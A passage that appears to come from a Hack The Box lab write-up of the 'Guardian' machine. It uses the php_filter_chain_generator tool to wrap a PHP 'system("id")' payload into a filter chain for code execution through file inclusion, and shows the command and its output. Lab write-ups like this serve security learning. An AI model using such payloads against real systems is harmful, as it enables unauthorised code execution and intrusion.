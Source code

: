 ![Guardian Admin Reports](/assets/img/guardian-htb-release-area-machine/guardian-htb-release-area-machine_admin-reports-5.png)

Got `200` but we can not see the data that has been encoded. <br>
&rarr; Continue reading the article and found out [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) so we gonna try it out.

We want to know the `id` so we will chain with this payload `<?php system("id");?>`.

```bash
└─$ python3 php_filter_chain_generator.py --chain '<?php system("id");?>'
[+] The following gadget chain will generate the following code : <?php system("id");?> (base64 value: PD9waHAgc3lzdGVtKCJpZCIpOz8+)
```